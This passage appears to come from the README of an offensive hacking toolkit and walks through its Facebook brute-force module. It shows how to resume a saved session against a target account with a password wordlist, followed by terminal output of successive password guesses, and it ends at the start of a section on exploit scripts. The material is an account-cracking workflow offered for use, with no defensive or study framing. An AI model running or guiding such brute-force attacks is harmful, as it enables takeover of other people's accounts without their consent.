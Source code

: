 after being saved we can use the attack again until it was

```bash
[01] Start Brute Force
[02] Continue Brute Force

[99] Back

Z0172CK (BruteForce/Facebook) > 2
```

```bash
Z0172CK (BruteForce/Facebook) > 2
Files sessions:
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number:
```

we give enter and we can continue with our attack

```bash
1 : modules/FB-BruteForce/sessions/store.session.correo@correo.com.2020-07-23T1133 (wl: modules/FB-BruteForce/passwords.lst, lastpass: 987654321 )
Choose a session number: 
[*] Resuming session for user: 
[*] Wordlist:  modules/FB-BruteForce/passwords.lst
[*] Press Ctrl + C to stop or save session
Trying pass (20/39331): 987654321
Trying pass (21/39331): corvette
Trying pass (22/39331): 1234qwer
Trying pass (23/39331): 88888888
Trying pass (24/39331): q1w2e3r4t5
Trying pass (25/39331): internet
Trying pass (26/39331): samantha
Trying pass (27/39331): whatever
Trying pass (28/39331): maverick
Trying pass (29/39331): steelers
Trying pass (30/39331): mercedes
Trying pass (31/39331): 123123123
Trying pass (32/39331): qwer1234
Trying pass (33/39331): hardcore
Trying pass (34/39331): q1w2e3r4
Trying pass (35/39331): midnight
Trying pass (36/39331): bigdaddy
Trying pass (37/39331): victoria
```

### Exploits

In this part we find different scripts that can be exploited

